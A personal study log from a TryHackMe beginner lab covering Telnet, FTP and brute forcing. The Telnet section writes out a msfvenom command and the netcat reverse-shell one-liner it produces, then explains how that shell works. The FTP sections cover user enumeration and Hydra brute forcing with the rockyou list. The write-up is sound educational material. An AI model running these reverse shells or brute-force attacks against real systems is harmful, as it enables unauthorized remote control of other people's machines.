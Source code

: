 ```yaml
---
title: 'TryHackMe: Complete Beginner'
date: 2021-10-02 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2021-10-02-tryhackme-complete-beginner.html
author: 100007
---
```


# TryHackMe: Complete Beginner

**author:** Nathan Acks  
**date:** 2021-10-02

# Network Services

## Exploiting Telnet

```
# Listen for ICMP ping packets on an interface:
#
sudo tcpdump ip proto \icmp -i $IFACE
# Use Metasploit to generate the code for a remote shell:
# 
msfvenom -p cmd/unix/reverse_netcat lhost=$LOCAL_IP \
lport=$LOCAL_PORT R
# Spin up a listener using netcat:
#
nc -lvp $LOCAL_PORT
```

In this exercise, Metasploit generates code that looks like this:

```
mkfifo /tmp/qdsrgu; \
nc $LOCAL_IP $LOCAL_PORT 0</tmp/qdsrgu | \
/bin/sh >/tmp/qdsrgu 2>&1; \
rm /tmp/qdsrgu
```

($LOCAL\_IP and $LOCAL\_PORT aren’t literal - they’re _actually_ the local IP address of my machine on TryHackMe’s VPN and my chosen port. Neither of which should be particularly sensitive, but I’m still not going to post it on the internet!)

What’s going on here?

- `mkfifo /tmp/qdsrgu` creates a named pipe at /tmp/qdsrgu.
- We then spin up a netcat instance directed at our local machine (`nc $LOCAL_IP $LOCAL_PORT`), direct the contents of the pipe into netcat’s STDIN (`0< /tmp/qdsrgu`), pipe the _output_ of netcat to a shell we know probably exists (`| /bin/sh`), and finally redirect _both_ STDOUT and STDERR back into the named pipe (`> /tmp/qdsrgu 2>&1`).
- On the local machine, `nc -lvp $LOCAL_PORT` listens for the incoming netcat connection from the remote. Anything we type on STDIN here gets sent to the remote and piped to /bin/sh _there_. The output of /bin/sh is then sent to the named pipe, which dumps into (the remote) netcat, which then sends the data to the local machine where it ends up on STDOUT.

## Understanding FTP

The active vs. passive FTP distinction is about how the _server_ handles establishing the data channel (the command channel is always set up by the client connecting to the server).

Active FTP: The client opens a port which the server _actively_ connects to when establishing the data channel.

Passive FTP: The server opens a port which the client connects to when establishing the data channel.

- [File Transfer Protocol (Wikipedia)](https://en.wikipedia.org/wiki/File_Transfer_Protocol)

## Enumerating FTP

FTP denotes user accounts using a leading tilde; thus `cwd ~admin` will attempt to change the current working directory to the home directory of the `admin` user. Some (older) FTP daemons have a vulnerability where they allow the use of the `cwd` directory before login, and will return an error when attempting to change to a non-existent user directory.

Use nmap’s -sV option to attempt to probe for the service name and version information behind an open port.

Anonymous FTP logins, if allowed, use the username `anonymous` and a blank password.

- [Solaris 2.6/7.0 - IN.FTPD CWD ‘Username’ Enumeration](https://www.exploit-db.com/exploits/20745)

## Exploiting FTP

Hydra can directly try to brute force passwords on remote machines.

Kali’s rockyou.txt.gz is apparently a list of 14 million passwords dumped during the hack of some service called RockYou that I hadn’t previously heard of. Apparently RockYou was a social network that allowed direct connection to other social networks (including Facebook and MySpace)… And stored all of the relevant passwords (including their own) in the clear!

- [rockyou.txt wordlist](https://github.com/zacheller/rockyou)
- [RockYou Hack: From Bad To Worse](https://techcrunch.com/2009/12/14/rockyou-hack-security-myspace-facebook-passwords/)
